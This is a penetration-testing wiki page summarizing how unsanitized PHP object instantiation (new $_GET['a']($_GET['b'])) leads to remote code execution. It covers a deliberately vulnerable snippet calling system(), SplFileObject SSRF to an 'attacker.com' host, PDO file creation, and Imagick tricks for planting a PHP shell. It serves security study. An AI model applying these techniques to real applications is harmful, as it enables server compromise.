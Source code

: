 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

The creation of new arbitrary objects, such as `new $_GET["a"]($_GET["a"])`, can lead to Remote Code Execution (RCE), as detailed in a [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). This document highlights various strategies for achieving RCE.

## RCE via Custom Classes or Autoloading

The syntax `new $a($b)` is used to instantiate an object where **`$a`** represents the class name and **`$b`** is the first argument passed to the constructor. These variables can be sourced from user inputs like GET/POST, where they may be strings or arrays, or from JSON, where they might present as other types.

Consider the code snippet below:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this instance, setting `$a` to `App` or `App2` and `$b` to a system command (e.g., `uname -a`) results in the execution of that command.

**Autoloading functions** can be exploited if no such classes are directly accessible. These functions automatically load classes from files when needed and are defined using `spl_autoload_register` or `__autoload`:

```php
spl_autoload_register(function ($class_name) {
    include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
    include $class_name . '.php';
};

spl_autoload_register();
```

The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE via Built-In Classes

Lacking custom classes or autoloaders, **built-in PHP classes** may suffice for RCE. The number of these classes ranges between 100 to 200, based on PHP version and extensions. They can be listed using `get_declared_classes()`.

Constructors of interest can be identified through the reflection API, as shown in the following example and the link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

The `SplFileObject` class enables SSRF through its constructor, allowing connections to any URL:

```php
new SplFileObject('http://attacker.com/');
```

SSRF can lead to deserialization attacks in versions of PHP before 8.0 using the Phar protocol.

### **Exploiting PDOs**

The PDO class constructor allows connections to databases via DSN strings, potentially enabling file creation or other interactions:

```php
new PDO("sqlite:/tmp/test.txt")
```

### **SoapClient/SimpleXMLElement XXE**

Versions of PHP up to 5.3.22 and 5.4.12 were susceptible to XXE attacks through the `SoapClient` and `SimpleXMLElement` constructors, contingent on the version of libxml2.

## RCE via Imagick Extension

In the analysis of a **project's dependencies**, it was discovered that **Imagick** could be leveraged for **command execution** by instantiating new objects. This presents an opportunity for exploiting vulnerabilities.

### VID parser

The VID parser capability of writing content to any specified path in the filesystem was identified. This could lead to the placement of a PHP shell in a web-accessible directory, achieving Remote Code Execution (RCE).

#### VID Parser + File Upload

It's noted that PHP temporarily stores uploaded files in `/tmp/phpXXXXXX`. The VID parser in Imagick, utilizing the **msl** protocol, can handle wildcards in file paths, facilitating the transfer of the temporary file to a chosen location. This method offers an additional approach to achieve arbitrary file writing within the filesystem.

### PHP Crash + Brute Force

A method described in the [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) involves uploading files that trigger a server crash before deletion. By brute-forcing the name of the temporary file, it becomes possible for Imagick to execute arbitrary PHP code. However, this technique was found to be effective only in an outdated version of ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

